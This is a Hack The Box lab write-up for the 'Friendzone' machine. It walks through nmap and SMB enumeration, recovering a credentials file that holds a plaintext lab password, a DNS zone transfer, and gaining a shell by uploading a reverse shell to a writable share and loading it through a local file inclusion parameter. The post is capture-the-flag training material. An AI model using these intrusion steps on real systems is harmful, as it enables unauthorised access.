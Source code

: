 ```yaml
---
layout: post
title:  "HTB Friendzone Linux"
description : 
tags: 
---
```


# HTB Friendzone

# Recon
Nmap Scan
```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:49 EST
Nmap scan report for 10.10.10.123
Host is up (0.023s latency).
Not shown: 993 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
53/tcp open domain
80/tcp open http
139/tcp open netbios-ssn
443/tcp open https
445/tcp open microsoft-ds
```

```ruby
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-07 11:53 EST
Nmap scan report for 10.10.10.123
Host is up (0.025s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
53/tcp open domain ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open ssl/http Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.29:
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
SMBMAP SCAN
```ruby
smbmap -H 10.10.10.123
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
Development READ, WRITE
IPC$ NO ACCESS
```
SMBMAP recursive SCAN
```ruby
smbmap -H 10.10.10.123 -R --depth 5
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445 Name: 10.10.10.123 
2/3
Disk Permissions
---- -----------
print$ NO ACCESS
Files NO ACCESS
general READ ONLY
.\
dr--r--r-- 0 Wed Jan 16 15:10:51 2019 .
dr--r--r-- 0 Wed Jan 23 16:51:02 2019 ..
-r--r--r-- 57 Tue Oct 9 19:52:42 2018 creds.txt
Development READ, WRITE
.\
IPC$ NO ACCESS
```
![](https://lh3.googleusercontent.com/O4pzmZNFGbiAAwAUWZERP_T7AWHf35fKkjQn50cLGT6XcgtAX0P1FQMYKh8MzUPzwEGcYCEc85kBLdX7LXa_2ipBrWvF1eTa8ldKjkXnO3u7yrYUicEd89F-H2HvC601gFtHz7cstwi4B9Wor51lTkzcJ6iJdMI7kZStMI9sCm9hxhXImJDCZvDG8smbmzwfCxKY5nWPGO5oGMo6SIfeTQxX5VITmPIh-DWwc5WTqODy9E3Kmtsecwy0y0g7fMrTbS2KPopSuxzYhzapHAtOphp-NYt0Q4RBz5vlFsXBmpkA80k00aAywHCXhfWa9_3sOHJj1xewgPvQRiHq9zJNNvlqZucImGRj_I5fdqNLVkQBxjEDaIoVC0kYfyQNeVwYdXAbMz-ELDzxACAlDacq7vFD8IfzZ9h8LVLe_NQzF5NxX-RmL1omGPEkXbf4HDe-WHoC-OrhUyslf-_vPDIEveYILwtDaLifjyIPNkXK4Gc5qvIRV6MOyix6TYXR24yGCGy0eadL2pFkrRIOhiG8r99M2Oyi1mdUnoJ3ypISHI4Avjj9IQINFQpVJTQyXxS6wSzep9CaS70N6Jc_P8k3E6qK-xVyKVFvFdbG3P8GCxOXS10K_wvVbrSCRZvB_dJpsQ54nCLRd8IxUpq_Pya1eXaptW1PpnPJRlrwKbyITZlFEVat2wWAbN8=w766-h511-no)


# Privilege Escalation

We use smbclient to donwload the creds.txt file to our machine
```ruby
smbclient //10.10.10.123/general
```
![](https://lh3.googleusercontent.com/bMtxkBFwC0LIqrhO-RBkBheIrcozv-KPVzuS4mUlDFfc-j6cNJsvh-PurxMM-MwoQw1juHkJW-gqKluIkJoCQfGiIftvZubl2kX9qaA8LOaXF4mViqelwuk3wYjQQDUd2egeqeXYIBsJXa184s4hwAu0yPjr9qlMlvF3ls0UD2zDV9FD6LXmmDIZeTGEkRkKLauNt5aFj3ItISHaRV28lexIoqe-GA0MkVXGj2VPDmz63taXCsbbN7Rp0KQWhdHc_MZ_vqRpMgJ0YJAXeezc8GAbnsS1y6YQST2c6bsRZ9qC6WwFNDLcKYCZQRqciqGwdpglTKNhqJJpymJHlX1m-iS7794LXhutmBzNYVC4OqyjHeYan1kwWZsgxP_yKbq4Qgk88Dv8o9gEsKELOC-n6LF6oEobY4AO68lMT5cYThJRG5F-7UlwAriN4oWbUjwqrIdW1-Z_u0STvnL1-H2EAUkgHHBS-O6YtxX6OcE1K85H2W3OQ4oLQVUKbsXDHbaIwO3Ni0pqbdQz1r6-vqWyHW57frpO0XHAPX71-SlEqb097Lpi_V8l_QPI178rpqVQw9FzUAwq9TcgpUYosR9ebsO-XIt2Hpx3pV2L3Zp0gSxNA-pUfY_mute5NS5-mi19HpucXBkLi8apuJg3vXpmq2KaF0JmrzH6IVLh5WlFR7VeZ5UcWCawfTI=w978-h145-no)

We obtain a passwd `admin:WORKWORKHhallelujah@#`
We add "friendzoneportal.red" and "friendzone.red" to our host file as the landing page
suggest to another domain and our nmap hints the same on port 445 and port 53.
![](https://lh3.googleusercontent.com/2wqZHZK2JEMlpv-RghvYZHgU0OhCYX_v1kOGeci8G8LZnZQgGchllI3T36LARwcSqeWXpFo4XkwU3KPmp7Sr7-LoZ_woax6Vug295ZEWr73GolAR3_KDziV-qAtvJJwLgGEUFJpWNJV9tdb4rAtvsdTtmg_Bn1hvwtYH5EAfF1ipkX4eD-bPs7aLIryz5x_jCwt8vp2dE5mBzV_5ARFZuDoHXQOYbtAFwzvHziYkjqevBaTZdBdVTGnG9AI7USj4JkY52ZzBdRQbQNDeYQ-lSM2XUNB7viKSUa1OE2DrXWljUxBkSXyCEzOOOMLW8SrBykkma7gBrZSfkjqBMNW-LRlfqVNjmDtT3CoMkYYsLvyxxlwze0KQDsAM7y9ReFAyiDCDBc5zAxRKV2kx6ZTbEJc3VNgyvDZapgRwivDkxnnS-zfHJ14cAVaJUCcbmCrXSEsvN1wjvSI1QuK9Vm3KkIOM3coBqY4AFHFnAvchaDuoXVb7XeNtUNPRf5Z-5XKGcDGSG0ZJkgcima8AH30ZePFaQN5r9pL-VW3I-0MkLj4-jHt9bN_zMvZD829AF3pHvdmPHhcMp5ASFBTwWj7ANaCtug1qQQ79U2tcHgKwoAd4n72TUffi3bj8OdZu1tFRCiuFpuofPhnynVriVaqQ2dvK5xXJfMiRrAbi13oyj1QdhOccVVHXhnY=w593-h147-no)

We locate and interesting directory "https://friendzone.red/js/js/" at first I though it
was some kind of passwd but after refreshing the page we notcied that the code change..likely
the page is running php and not static html code.
![](https://lh3.googleusercontent.com/JSNfWkKi7VCEkwJm_YdSTk73NCH8uX_l9tJbE97ZFAqM9NF5QrtBPLO3_Yz9AriA6HeRUGcRMv_SSTqBlsYBrjIexDXdmFWbf7TresFh1fes-xhfu5cPbCDOTONasCQQJRc8Wjxm_ReOz2kiMJORYZbtxsjGx3xFTIYz5e1oZk8hozI77v6azxRtmmTjOAVaeoEY6hDYT7Sq6GWX2ki4j9Rqu7ZwN_W8ZZMmfIYk-u3Jh2De4N0RmMsoQeRjiFmfH1Dm4EAzaszN5XcHI9uk8nisqammNMDxu5_DrW0F4xJ9TaYSFEbLwLpSYQAQ9CdP8kOYJ03MRGpmyp0TiyAjz7Rup16h3LqdsDKlPmuIGYnHZ3vmcTr5RwLqFPDgfKlP8NsYxfKQgSonw0YMvMYiXxu8Y0ulpMxL-kh8Z7-vO_X3unK2LhQX7pnrro4LTyP5Fqzhl2DxspyWyjRfAF_YWtyRvhgLeAqt_21pKB_SCXzD2Ch2tjvlrSxQ7Nv5HuL16mfPfGmFneTfikW37sGkdb0SFr4qy8x2tJ4KuHwEHYwBXyLfz1f6WBsIwgB-8arezfSjAAg-Gcp0184lVRLli7Odp7E8nkVE0heTTRZdluT5TBE-uGBL4rBeWWd6ayUg-TcbA5Twi-pSukcI7Tj8lehJUzJyp1a1t6BsoquyT3M3A8dmmHBQWHY=w795-h492-no)

![](https://lh3.googleusercontent.com/Dx_PGnfS9mKnoMH3HySMJ-QeRp21vDOoJE66Oyw5vSAg7S7E6n7JWWOy2Egc-sZhL7ExZqO9pOUtEH91-SbVfqidjLsq_L7hr4fk5cZAMVH9j4P43RwfU0EwW_JegTC7UcPRUWqMvz-TUc5s_Af_TOJPBkf306zc8hshV5iAAp-07ETC5dB8KXoQHJDdSBNSOeN12RBn3c9sYTH4VXt5U7r7FYBA7z80qoEsOPutx4ZlT8_LxG0UpUutBgkZwREq-vmizE5IFnoYhAuRnkzm-jSteD_XMq9oG_wdkcP2gwgOG64yidi5D9wxrePBBnA8JjbQOvUoC1Hn8Mlh0mD2dXYbROcRQvVl5FczcxybqWKar0JY4uCU94yIzhy-8J4_U8kB0Ra8yQfe_PGKOXKEcDDh7OV_GgTUjtD6cbA9zqQbAZ07nt1A7_TvSa9iCVbk5QeI1k6jK5V1qnaJU2JrltcJxzvTo0TtAeUkS7Gb1KvtVhwjpHAiG0b6xVVkCKzMULMul2TTARYyt8rxQVW059g7cI9DHlBauZyPEGmjmqUTtOgytQ6cO-qPXeJlXG16VbcrHLSUEOKFwz_qq8udxhwdGMqEBQpmbHnMbO7Ts3D7sRDWDLEutgFJImlWtrOausGXOrELe0nStmvAijPuGo9hBwVFCvhXBKfvgJyG0QVyT-HMXPL1TwU=w498-h159-no)

![](https://lh3.googleusercontent.com/CYD0J2WM4_0hJhRHBm2Tl3PJWHuWb6psP8Gbl5LA-1wmQbCPKjwE6dTsaijfgHaO9SqrMeRwL3Zo2UmB0yBlaNUgbfiYTaJLFMmJvZ072P3TvM6occ1btFvW_bbJOKIVjQV7r66RJeYWh5j_acEepszUSNuWU-BeuEmCZkMPgYdAhC5_HP_rxuusj-OzGP3AtOAmvgui18NPbyNJ1BLiM4AHRF7GYHofSWJZmtaH3xCU7Zu7GHSAvIZBuw6uUDaGnBkqG5UBooNYrgBiMsVZo60bdJIqidIItLCRQvAzp7zDXRFxrD29Zreo6g0prdbc8R3BAfNC4kJzFJ3t4r6gqo0K1amQTe4ufrAbkneTeM3hsfQI5w1Wg7yshinkOjtkGdj2PNDxeS23wS5lZ0FWTkr28ekPKj8KTOJB_sHpzHsd4xqZ6obtTH0VqDFAE0ZWZMA7ZKH_GlID3gmeswIsfKG06mZer-S4ACspZqR3iqL1J5ETB9635pdySNRPpD03Ywb3y-lS999TryvXcIKscRPnXUlylij4FGrkAJAyxQnzGbzZmdoeYWpnLhWa5NQMp4lHtO19S01uJOH4Gh_DON5xT4YUzRl877ch90UGqy-3xlFz7yCNsOojszzAIlhPVFoB9jbwW8dK4b3G_MJyBBCH5bp-n9OCCOVWGW5olNFPOvT0YfI5M6s=w456-h148-no)

![](https://lh3.googleusercontent.com/DY7B-xv8FO2DanRPbqsTOKspLGToMdlP_4iczl1YLkbYccfAKn1zorgAALGj_oFnoNfusv-EBONb5lTxRL3cTt2B1FvAbJftXERKnalUTjVHVXnLgps6f7EnZdGprhV4gkkXnELZN-y0a2eL_gWcCAT8W8u_wIwPki1a5NRR5A49geXnU_LqhXnCj2V32ysu50UUN9INmfi0gHWkRs_1KPVLvbxz1089hoCE4zTt-q8vrAh0xYqpolNnSBbQR6lp2Va18XL52bsztuQ92YSk6UQRzuGhI7l3OwegT6B3wIDOlATxJ5zjmkDn6QMszk99U8QNeggrXNLPtwlPsy3MjaFDoRPQDrSg9wcBrpq-3BxqzOV60RLDwQNikA4A4WovIfPJVeWfNlsGq1YNevpsiSPyTcNJkg5-hLxSAFNs5rKw3vSQAV5kMZfvNQwKuIjGWOlRfwEkvy_wY9I2rrv8lhpY2d2ZJ85mcxCMKZmtq1MUr2XsODSnnAhPJt4rHfVhXE0l-SLaShrnZhL5nY3SO3GrGmArFEdRRQ7ncGnJWQPL5zZy1NsrQ5kIbA8eAMKxIiXUJLsDN1cDzWarSk5FMQNRRA08z-lpZreRUcMkxgYNvVKXGnFA5A2VV6PASf6MzQMseQ7xEa6sV7_acw9PKuPceSBfDUo49owYGZ4wfbq95XqccNfwAJM=w475-h275-no)

At this point, our most likely path is the dns domain references..lets do a zone transfer
on our target machine

```ruby
dig axfr @10.10.10.123 friendzone.red
dig axfr @10.10.10.123 friendzoneportal.red
```
![](https://lh3.googleusercontent.com/a2K2GGmFwGFaF4Q8i5kQNBZTYSyaBnMl7n7YPh0ZhYUhjg381zuxQ0Lmz6aOmKWLWl2VWXLB9FkqRp_EMw4WT850p0RCyrbtDmziuEyhiVjTfmtXBANJg7xTtsf89TLhS_lKRGOV5N3TiiY5lXiaOQn41KhYmw9EGNheBv1Pt_zLPXwMBNGsdcw-JTu2TUbnBKkjjA4-na5oRMq_yvDcuDjW-5qihRYZAa0WoLPs8I3MyauI2EFkK3dlKWxy9HDLqOlDDavO2mQ7vkf7qzgQd2bdnYrUd8MltaxQeGLiYKXPOXJccky-NRc16iod9Yh_9S9jwsNvzNd0mnZAYfm0YSRtXELDlvl6rBWX9eJzy955W9KU6uRQyVLiEOeVKtEUea5bsc9g0BFp2lpKOPxya0tzso84y93ZfFX23--B1jcdWoher0Eo6a4f779pGzfs_TkbkTUFmhvvytarqdoOicrtVFyG2PsMEddKO6uhlao0NB-ZC2OttvUredcntdgNwhrnQSNNmQtttCU1nOWZ7g70Z3jqgp_sZemK_kpzDOv0yHBmgFsmSY0v_6T99-quQOW2pE3K-KHQlvLtBmy4UuxgAETtyznJf0BGp8pYTVDK2i3VQKM0dz9wSQAJRxawBRIBQKm8lMILe-yUUNpRb9OPlhlKFcuXObmazXtVSZZ8kczAkGTj-nc=w596-h291-no)

![](https://lh3.googleusercontent.com/q5hjO660mo6QoKMGMA4U97C_jHDYZgi-HG-gwrKTs9XKOJc7u5EZeU-RthEw-Js1Xg0B9Vdvj1HFSkXSxh7iGj0GXmV21OkSI6JLSaEVEte_4ldKr7kqIQIviq9dRvT3aoB8qZeVGao6qOnvuihOwuxzwd36NsfUK2aTifx7excVsiFYiNFfEk4QmihvMThS61jgh1yQupv1gNjBC35aLQuy4BmcpnqtzxWIO5Y2EW4rHO2fVtV1f9vhPn7xeVxQktr48tUy4v8pfBLIwm332DluYG4wDYbVCHxUrtzS7PiEYW0NXcEB6eqVSfhpIKDzHpx58J1W5wodSkzUv13SH2PnpuMXr9qS0W697M2nyRDtFcyWr1_XEEZ-fAYcAza8pcUJJtA36k8Inkn5QXft9dXgkkpgW_n4eFa7cqvP1gNJP7FjfLOtVEIKdZaXtP-qbq6iXxZy3s7UP4AAxRSoI_goNXTtb0Kj-g4zaToqaPpv85hWSyImwOky3zp2RB6e63H6bCl7O2rv-kDFcxOsKJQYEEueU0S3Z1e4T8LcuSpNEZVL4aKLkXm2CX0dpZ8XQRFU9zGFgnWFZ5qz95o2byMptO3aZTMPmbKHLR30dNSTN3N2e3lloj7bbJ_n8WcU2KcGfH6vz60QWS0l9lYqIqK8Qf5UCEHwUPfc0cYpJlXO3TH6SJ_rrBI=w614-h307-no)


We save the info to a dns.txt file and we clean the output
```ruby
cat host.txt | grep friendzone | grep IN | cut -f 1 -d "6" | uniq > dns.txt
friendzoneportal.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzone.red
```
![](https://lh3.googleusercontent.com/ntODtJPQttlWy1Z9QFtJlIt8PmX-RcltuJlmjtbapccgLtBHYnJ-Lb99LQyhPu7NhGhjmQpVgjeT03au5SDuSnshAc0RtzwXEjIJjuxzatGl7a_no_5Sh22yTlC7WAJh-0sfLfr48Hb_PPi3yJ5F4arewtZYFrKa0AxmvqhbHIh9bV7JkBGjmqu3ORUWtB7ZRVacRRzcOxWFU1UHcwF2luygoVSEJ0tgFI16Qkc2e4xNJt5atXAnzbXiwNim4KROD2vnPVS2ctFnJcNHNZP-c-HfvN8nxl8YxM8jppHcjz6uJeXDbimfBK04QMB_w6sBHsQ7837UXQcjxTGtdf3RCjpWVvi04teynQB8OAAUiNFwbFICo0gCyLKc0O67YP0-bfN1tV1-UFCsfZaiw9Li4Tjz9Z0gfrjMTnJFd6PrvcIw3GD1Apfx0MRbONik4uQyrNsbAn9QZAwS-CZSlC1rZ2WgFbnz8ec2pR14iZxa-W_OLYHgQ0Jss7UEXGspgpqypScyFx1kCIdurXf3v1uYqTfpESmplwUOVlPYNqSa3xAfXQjw8tQCuv9UgdUVuoPMlg8J5UVDVy8BsTB4yAsyDoqTjvIdUEWXK8a8mkeQz2gzu-bvr48XHmFqKchNwRJsKCDAbaVHI3sd4_LZfUH15DBo5_Ysp3i9uP94FnJqT6W_Ue1S1HYVuOA=w930-h249-no)


The only useful address were `uploads.friendzone.red` and `administrator1.friendzone.red`
![](https://lh3.googleusercontent.com/F6Ak2L0sVHXGCNocLsTFzc0mPl7MiJs0NTapSKkA7UayPFt6McM7zIxD7ouVkNW4svl-j4USWJaAo3xKMNEMH5N1EyjiqvNt2-C1MeI7QjePDihQ029K9RrLT-xpGAQo5iKMaiHwGoYMQISBklaBq0k66ITodaWV6TFx8lGdtl3ZvrPUMYTSbHX8XHX5tMIyIVjZ4V4Wz8Eqj6khctnhomv_6BpKJYXG69myUKhn4PmCaeJlJMu3XGaQshTD0bT6kIZPtiX5HIUXJn1MlHLem10bux0qDWs0p9cpjUD-v8rvPthnLflKFG4tYLYNSha_p8othuh0BqUFHcmAi6WTLK1QU1OuMKbb0w4h_EEMKCwdRKeYn_C9a_oppTwKpKHDlZJ9SSwlvHUjSWFzaEBUd-LiURf5BoL5qeAyV0DLe62pj1e6XGuRk2WwT9upBWPpUE2O_uv3PhZCf4YIQ6h9QsOB7CHuTzDhHY1SbTyoTYj9nGNr9SX5P4PGtn-ywbDXEHWZHNSQQ8Sd28VvXPDYAF-Nz8OYQUxCfZkNQYi9rFsZqQd8KFzlypXqX6Axfh-nkflHAuzdenX9Lm_lyttIyqIMEvmrg2u-j_cReZlL8N2JsS_ANJNZUsnkkSfGZqj4ieO7KsECetgfZMugX6257VHpZMzW8gHYPW4giWyV3rxDMzl9XkToMow=w693-h288-no)

![](https://lh3.googleusercontent.com/NgCSoFXUf_sFkRsSqU5Jmct54TV7XwHTnHofsvKap5-V_OsLWfbWEr2Z7zhdaOHv-747UruwZOtlPGWG49GlsLni4L7cTe70lYlGjtuwgftnfYxVKLLaUOG83lBkZXd--sepk4UiYoDCO92vkxZFdbEibC8lck27Yb2ttN00Bn4bS70oKq9Jebz5JaHNx69M1aNXi3LQ3T60byPyF-1u4rBUV4PxoT4KY7VHT9eADwtxB7hpRcg4h1bQaDw1YtQo2w36zgKUCANziPFA1tFMdvb-a5OMMn-rmPaN0Fh2FqD9rUAtUSyB3cttuPnZE1dJRT4qN9ieFhOWSOi92II0UZ6a7sJ-5LmeeNVYuTpl2yHapjUM66UjzSCsSWuoq2ytjDklXuLbxpd_k9CvRpFAKqGw4onhbekRvNlV7FIIwQEKArMY4FXlc1hM1E4ZWgvoJjG2kiAVbb7qX6ha4En77d-tHYHURKiDLhM1IVKTtI7rMGbPJx4-LsbG2-R-Q1LYGL8ucWN2ZzJi_NG9b11Ml7XBrgQGlqs40_tf_QWI1bWMq5xxzmd0P_IorGsoZo-sn5ZgFiBySHy-BtUN_MRHHqJLXNk8zVInND0ZN-hFudqkojS-QlGmO3kOayxb76-ePY5Moo4kJEM_XFRVTurjF6FR1dW-WZqNTu-zOJQmTcVNeeBIK2HBugM=w1017-h88-no)

![](https://lh3.googleusercontent.com/upaY8k8YjXHugTqRmIqUVpdxUnkryt9Tx9FFX1-oZDTz808yN9yU1ydwBFCaiG0YbDSoZfgjZ6-SLvdTSgBWZwMbFjonV32_lxAMOKE_ftkgg0vxjpMt3DW8co6FuvWbLaCXpNONoizzKtMzjbbHC2D_v9klOSW9ob9LRDVNUeKLS73p7Ls2sodbEA5LvayngvmzLzk6jHhjWzRCg_153Ozmfd-kVfLTR93t7jOZa2itwbG5srYDvU3VB2dZF4r8Etz7IczTfyVRW2gpGEj7C1doby2TksYVk1qAVoGb7uR_PqAAKvDbmoRRRC6hyg_UcBeiP76cgTVCrvBLzmW4Tpw95m7BD7yHVV-osWGEE2MIWV4lk_aIWK7LMiK7i_hFcrjMDMZAtxVkJfevuuTHvW-aYdbayr335W7t6iSxlPiWZxLm-xIuKdBH32w-gsgJZl3cKUPmWiU7BHbLQdEHRiOGs1FKNu5OixFHUJOrTauBU0VtU5Lbbw467Selz5kpeKHOlZqL32xh7DZjhfo46qzq0eRFkbDqweFsszaK4Wz1CD_1AcQnf6W7AXEeYmoY8YiswSOoUXJ7P9O2NUMGekWJn0aKhKiN5Xwy7uYo1wWT_riePGQLFFpifFWgO9-TbjTa29uAideh3phM0SCjKxcxGuqACDCwdZ8bCxTSAZxS5FgFglSBdWY=w599-h391-no)

We upload a reverse shell on "uploads" but we dont get to see where IF the file was uploaded.
we only get a timestamp

![](https://lh3.googleusercontent.com/Bd42yVRsSnm7qyuccfk0EQvmWzmDKLFdwvrsdugktEt5WORggv4BE7tkGHrNcfurdmQjRrTslblhavhtWm9_l8OVjU_bM0PpNdPmppIpb5aef2Z_5kLphcJEws3CK-yBy91vXvvH078_BwyzMNfcjZunhURU1LzXza1BOkyO_XIErWJFFg3QTchPP-1ylNjpWj4jxK_p2wU7spsuav2e76ksR4maQXZPi1fVVJLYBQ-niZ6_w4q4aEyrRrDUy8syX1ogRhMH0lYZ8cHDCxWuct7VcVpnG561Ov0tgCJtseFzkSrbdva91yI0H-BcaEK7jJV8fFwbEB0QRxUrD_n-WNTjatGEWXd8atdhyZc9ZsrTBPN7OmpEoycAV-11kYFXGJqThAnlSGseVU9caenEyPxI2QBUbO2rdXoeXYsmBS2SD_ezG7I0UAwJEsonq9oEJDmzC4QuWR2Zfs9-miuOLZp77u3dV2zNSLt5RZn_smIg2e4ORX4ReBeGv3v4mNNIeGORWUT6cNHMTWY1dsyApI7Xq8MkxmtJBFkOWdxRd2McrVFYwT8GgL4JTwbLahN6c9piptsMSmd-7lYQzf5dx31EBdvk-S6KNS6qyJUsr6Nx4f4QVg14cH4M9-5Z7FFVeIYS5O0IwVAImXsQ9b6OoRgRiJSkAyPAfT7nrnQJIV2XDvyAqQdmuF0=w764-h382-no)

the "admin" portal give us a hint about how to search for image files
"image_id=a.jpg&pagename=timestamp" but not luck there

![](https://lh3.googleusercontent.com/Qnf1IwMDJyy_qHSbKZZrZcgpGMFc8jhcqCEkqTkXXbCDQvepoI6hLwhAFK39LHPV2_heabNXRk95uFMgnYmOizTuLu0bC1-VBoStRK5q5GCQLY0ssSsN7jhnEg2EJ3-MlOupBCkQnujpLe8D--DNeYOYBhbWXfI63fW9EYFZmsvRsjnaGv92RrxLQezJappJr6kHfqyKbA25h7D8Fy_oNNJHE0gADJQkcRROMva9ffaUhQa9Bgj4anw_myYaQ24QGXw6-nTIWXYOp7d99dgHTX83MuiXCQeDxqynNoneE6M4RqrFFAt9nHNuijTybh0uYBZnaT31UWA2kI9fW8SQatEdCaKLvcnTsWLq8z9t1ujBzP5He7stVmf3qnnBKIRdd2dI_XdhaOylWePUcWJz2wNKMIDw0nShkrPfxtH5R3iTAu8k7UJM_7-3HvKbTBkpQnlbBhMH28aAAMAc6O6p8G8fei6fKC4jVulR8t1W3qYFGpLD0VXVO3B_m2G5y7yhWA_4gktKEyA1HAPVD9p6e2uREPS9z0A-WwLPoimPkqBmUtnwJIUHq_SlJ1QrNFRVaJTT_YAVZ8nEzxwQlcZIpd-oFg32Hsx2Anz3yy6bvumGrB7MuorWlrkfnrXZD1S5cvOGWp7V7Z8jF5c2rVRRuch0Afy3cv_asehhoFoom94CRIPKRgH25l4=w581-h108-no)

After poking for awhile I realized that we can upload our shell using smbclient on the
directory "/etc/Development/
![](https://lh3.googleusercontent.com/LloZdpfxIdoJmRU3RXvMMIsJkBjpx6g2P_DsxiGYjLhL_MPmcEvymauREaEXWWBoDLYfB-qPi29TcKY7xn0a0AbJnqBLh5QlMzu-D_iH53RV9uMVHOyzuG-olw7Sptac4Ra654IV0kKrsDFd-OLZ4KkDCOB6kLf9MRVE84p5vqY_DTkWewls9f9jPvOtNCgdKbitA4Lbyq412H9EPULNeKbJgVDKy1AzA_G1xDfjKR17gLIZlvZPsiYfZmzipFRPN7F8EOeYlZX2-5KT0qkvkEljoL44tSq4RP74Gp3RFd71pUx0n7g02tmijaQxOjuyE5DW5AFZMQ-cIvfb_b-iWYTraPCwcSvUoKURxQBi1t2em8zMoAdYS5MbxNjiyvD-k7aBT1KxqtWfK8KjQ2iJrdtJUL2K9jviPU59WUTeahq3oAG-RLUpic9ElpEO0JEmitSpB0aVO0_7Fmz8aIkcDHDrTzgHarYMbcR5riRMhyuPCEYAHTXr3Ewg8Eu8qXx595UDnSXLoJlJdTpA8DOPLIsn0CTE3HeEeMPSqfitrhA7kMuN-UnqNTL5u1vALymrHinvSQu4VzC-uydvBpYK4Fwt1pqjVp9Pl6QzWB-6AxqiySB3U_shH9qbzqBTtqHUJpHOHdQIodU13oS9wrix2bfkne2XtkXUaMOhl1r62U1NgD4W2x6CANk=w831-h324-no)

and call our shell from "image_id=a.jpg&pagename=/etc/Development/reverseshell"
![](https://lh3.googleusercontent.com/o2v5Gj8aGBfyTZrpzInp9DKqc_0GUOVB_Bh-kHPfzgTgRJRMt_UQwP9-lX8rNT6fmtCPMSMylV7j9zAaWA_mOXAK_69oEx9IpiHdYoTjhM6GLYrRJ13C7ANUwWHNnk554gB3wQzvuq7XOSDE4q9yA6lQ66l1PAW2mxTTL-mMUrSJZv08n4EeLzUDsQ2t6pqTpzirwMX57xahlM6mTiMUnFcy4NcQaDnYNnoFxGRiqhGrTDnqdzcMnVEXeg3OtceyYzVKRNVu_V_Ut4j_NhG9ymAt0ELgmKmcL646rh8kk7NToAL-q5bUHqyQ9A5lPdVyVS4vlZ5CYa3z40HAAUgliNrtuogQEw3ZG3RoleEcPFQIlDq0mg0B8AOa44aUvxyIMk7xdlbkA59T9nGL59kppdZhKm5l9bppVWvHhngGJqEFVON06oSIuFesX95rj4HVpxqE5-APFVp6zq1TnB9d2kHspjMSNFIpZal1mKuTniVa321PZaWrNE1dPs5QqOvywlDNb9wHMJCmO5dx_qqtIhEH0dQT_YdN3aPd9W1Z-5XcrIpq3p8xEkkwBLQDp2dcolcUMHpJhjbTtLaNhrd6bIsE68qCoSKQc3zIhUJWehlDIMztlWiCw9nIhmhhPwlS230evRIxzXsNGriAnCn_EImTEdpvHZ9ClZUhVphDNx9X0S8jLU10GfE=w429-h59-no)

